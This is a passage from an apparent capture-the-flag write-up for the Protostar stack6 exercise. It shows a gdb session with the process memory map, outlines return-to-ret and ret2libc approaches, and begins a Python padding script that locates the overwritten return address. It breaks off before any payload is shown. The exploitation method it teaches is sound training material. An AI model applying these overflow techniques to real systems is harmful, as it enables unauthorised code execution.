 ``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) break *getpath
Breakpoint 1 at 0x8048484: file stack6/stack6.c, line 7.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, getpath () at stack6/stack6.c:7
7       stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1980
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

So, to solve this level, I have 2 solutions:
- Overwrite the return address of **getpath** with the address of **ret** instruction inside the **getpath** function.
- Use **ret2libc**.

### Solution 1

First of all, I create a simple script to find the offset where the return address is located on the stack for padding purposes. 

My simple script:

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

Now, I redirect the output of this script to a file and use it as input while running the program in `gdb`:
